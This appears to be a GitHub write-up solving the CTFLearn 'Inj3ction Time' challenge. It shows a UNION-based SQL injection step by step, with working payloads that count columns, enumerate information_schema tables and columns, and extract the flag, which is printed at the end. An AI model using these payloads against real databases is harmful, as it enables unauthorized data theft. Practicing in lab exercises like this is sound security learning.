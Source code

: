 ## CTF-sqli
### CTF called [Inj3ction Time](https://ctflearn.com/challenge/149) got it from [CTFLearn](https://ctflearn.com).

## CTF SAYS: 
### I stumbled upon this website: http://web.ctflearn.com/web8/ and I think they have the flag in their somewhere. UNION might be a helpful command.

well we got the hint we needed which is ``` UNION ``` command.


but first of all we will use ```1 ORDER BY #``` to know how many columns in select query, replace the # by numbers untill you got no results.

![image](https://user-images.githubusercontent.com/107954336/219982939-71a0ea30-eab4-4362-b27c-9d073f485a3f.png)


we got 4 columns so we will use ```union select``` to get them all in the return.

second of all we will test which column can we extract data from by replacing number of column with, ```version()``` or any other command. if one printed the version that means we can use it. 
```null union select 1,version(),3,4```

![image](https://user-images.githubusercontent.com/107954336/219983112-5fa717f7-fe4b-4e9f-9f48-15a66d00e070.png)

we have used "null" so we don't get results from the id and execute the ```union``` command.

we got 1 ,2 & 3 injected so we will use one of them.

third of all we will get the tables name by this injection.

```null union select 1,table_name,3,4 from information_schema.tables```

![image](https://user-images.githubusercontent.com/107954336/219983289-5533df50-f3a5-446d-a03b-3169e9eb7822.png)

we got a lot of results but we are interested in this one.
table name= w0w_y0u_f0und_m3

now we want to get the column name by using this injection.

```null union select 1,column_name,3,4 from information_schema.columns```

![image](https://user-images.githubusercontent.com/107954336/219983752-640f9961-243a-411c-a144-24a2c28a95ef.png)


great,we will take what we want. which is "column name = f0und_m3"

now we have gathered all the pieces we need. we just need to use this information to get what we want.

by using this injection.

```null union select 1,f0und_m3,3,4 from w0w_y0u_f0und_m3```

![image](https://user-images.githubusercontent.com/107954336/219983843-837c3f31-c916-43fc-a2b7-161a7ae1663f.png)


we got the flag.

```abctf{uni0n_1s_4_gr34t_c0mm4nd}```

